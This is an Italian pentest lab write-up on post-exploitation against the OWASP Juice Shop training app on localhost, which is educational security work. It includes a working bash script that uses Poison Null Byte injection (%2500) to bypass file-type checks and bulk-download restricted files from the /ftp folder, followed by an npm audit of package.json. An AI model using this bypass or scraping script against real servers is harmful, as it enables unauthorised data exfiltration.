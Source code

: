 ```yaml
---
title: "Juice Shop Post Exploitation"
author: ""
date: "2025-07-06"
toc: true
toc-depth: 2
---
```


# 1. Data exfiltration
## Introduzione
La data exfiltration è il processo mediante il quale un attaccante riesce a sottrarre informazioni sensibili da un sistema informatico senza autorizzazione. Diversamente dalla semplice compromissione di un sistema, l'esfiltrazione comporta l'estrazione attiva di dati — spesso in modo furtivo, evitando di essere rilevata dai sistemi di sicurezza.

## Data exfiltration dei file nella cartella FTP
Come scoperto tramite information gathering e vulnerability assessment, la cartella FTP rimane liberamente accessibile nonostante sia una cartella che contenga dei file privati ed è possibile ottenere l'accesso ai dati tramite il Poison Null Byte, come è stato confermato nella fase di exploitation.

A questo punto è possibilee effettuare data exfiltration e scaricare sul proprio dispositivo personale tutti i file riservati contenuti all'interno della cartella FTP. Si cerca di automatizzare l'intero processo di exfiltration.

### Procedimento
1. Creare un file denominato scraping.sh che contiene il seguente codice:
```sh
#!/bin/bash

# URL e cartella in cui verranno scaricati i file
BASE_URL="http://127.0.0.1:3000/ftp"
DEST_DIR="ftp_downloads"

# Crea la cartella di destinazione
mkdir -p "$DEST_DIR"

# FILE_LIST conterrà tutti i link presenti nella directory FTP
# Legge il file HTML di FTP e si salva tutti i link href, ovvero i file presenti all'intenro della pagina, situati al suo interno
FILE_LIST=$(curl -s "$BASE_URL/" | grep -oP '(?<=href=")[^"]+')

# Per ognuno dei file trovati
for file in $FILE_LIST; do
    # Escludi la directory corrente o link "vuoti"
    if [[ "$file" == "." || -z "$file" ]]; then
        continue
    fi

    # Controlla se il file termina con .md o .pdf
    if [[ "$file" =~ \.md$ || "$file" =~ \.pdf$ ]]; then
        DOWNLOAD_NAME="$file"
    else
    # Se non termina con .md o pdf, esegui un attacco tramite Null Byte Injection
        DOWNLOAD_NAME="${file}%2500.md"
    fi

    echo "Dowloading $file"
    
    # Scarica e salva il file
    curl -s -o "$DEST_DIR/$file" "$BASE_URL/$DOWNLOAD_NAME"
done

echo "Scraping completed."
```

2. Aprire la bash e spostarsi nella cartella in cui è presente il file appena creato.
3. Eseguire lo script usando il comando:
```sh
bash scraping.sh
```
4. I file scaricati saranno situati dentro la sottocartella `ftp_downloads`.

### Prova del procedimento
![Data exfiltration dei dati in FTP](../immagini/post-exploitation/FTP_DE.png)


# 2. Information gathering dentro il sistema compromesso (Pillaging)
## Introduzione
Pillaging è un termine molto usato in ambito pentest per indicare la raccolta sistematica di informazioni sensibili dopo aver compromesso un sistema.

## Package.json
Dopo essere entrato in possesso dei file contenuti dentro la cartella FTP, si è andati alla ricerca di qualsiasi informazioni che possa essere usato per ottenere informazioni e identificare ulteriori punti d'attacco dell'applicazione.

In particolare, un file che salta all'occhio è `package.json` che rappresenta un file contente informazioni creati dal software `npm` usato per gestire `node.js`. All'interno di questo file sono contenute tutte le librerie e dipendenze usate da Node per gestire il server stesso. Si procede all'analisi delle librerie per scovare dipendenze vulnerabili.

### Prodedimento
1. Si apre il file per un analisi manuale del file e trovare che esiste la sezione dipendenze.

![File package.json](../immagini/post-exploitation/package_json.png)

2. Si utilizza il comando:
```sh
npm audit --package.json > audit-report.txt
```
Per creare un report di eventuali dipendenze vulnerabili.

3. Il report, in questo caso, ha trovato 172 vulnerabilità di cui: 

    * 6 vulnerabilità di bassa gravità
    * 53 vulnerabilità di media gravità
    * 71 vulnerabilità di alta gravità
    * 42 vulnerabilità critiche

### Prova del procedimento
![Auditing dei pacchetti npm](../immagini/post-exploitation/pillaging_package.png)